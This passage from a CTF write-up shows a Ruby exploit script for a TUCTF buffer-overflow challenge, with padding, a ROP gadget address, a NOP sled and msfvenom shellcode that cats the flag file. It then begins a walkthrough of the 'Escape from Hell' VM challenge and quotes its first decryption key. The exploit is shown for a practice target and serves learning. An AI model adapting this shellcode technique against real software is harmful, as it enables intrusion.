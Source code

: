     #!/usr/bin/env ruby
    
    # padding + address of pop ebp, ret
    payload = "\x41" * 44 
    # addr of gadget push esp, ret
    payload +=  "\x40\x84\x04\x08" 
    # Noobs use NOPS
    payload += "\x90" * 20 
    # shellcode, generated with: 
    # msfvenom -p linux/x86/exec CMD='/bin/cat ./flag.txt' -b '\x00' -f ruby 
    payload += 
    "\xba\x33\x5a\x81\xb0\xda\xc3\xd9\x74\x24\xf4\x5e\x29\xc9" +
    "\xb1\x0e\x31\x56\x15\x83\xc6\x04\x03\x56\x11\xe2\xc6\x30" +
    "\x8a\xe8\xb1\x97\xea\x60\xec\x74\x7a\x97\x86\x55\x0f\x30" +
    "\x56\xc2\xc0\xa2\x3f\x7c\x96\xc0\xed\x68\xbc\x06\x11\x69" +
    "\x92\x64\x78\x07\xc3\x0b\x1b\xa3\x3b\xe2\xf4\x2d\x50\x9b" +
    "\x6d\x9c\xdc\x23\x05\xe0\x4b\x87\x6c\x01\xbe\xa7"
    
    f = File.open('payload.hex', 'wb')
    f.write(payload)
    f.close()
    # system("cat payload.hex ' netcat $IP $PORT")

A huge thanks goes to the team [Batman's Kitchen](https://ctftime.org/team/3135). One of their members gave me valuable feedback on my shellcode and why it failed. This enabled us to get the last 75 points close to the end of TUCTF.

## Escape from Hell - Start Your Descent

The TU-CTF team provided a VM for download. Starting the VM shows the GRUB bootscreen and after selecting the actual Linux installation, a password prompt appears.

In order to further analyse the machine using gparted, we mounted the provided VMDK into another VM, running Ubuntu. Except for the boot partition, all other volumes were encrypted and most of them were part of an LVM. _sudo strings /dev/sdc1 ' grep -C 30 -i "tuctf"_ gives us the following text:

    Welcome to Hell!
    After taking a wrong turn on your way home from work, you somehow ended up in Hell! Don't worry though, a stray cat named Lucifer (no relation) spotted your predicament and has agreed to help you in your quest to escape.
    Luckily, the first level of Hell is fairly pleasant, so getting out of here won't be hard.
    Lucifer the Cat has a few helpful tips for your journey:
    1) Lucifer recommends using a livecd of Arch Linux booted alongside the VM
    2) For decryption, we will only use the contents of a flag: e.g. in the solution tuctf{flag_goes_here}, the decryption key for the next level would only be flag_goes_here.
    3) The Arch wiki's page on dm-crypt may come in handy if you haven't previously used it.
    Good luck! Your first decryption key (for section m1) is "welcome_to_hell!"
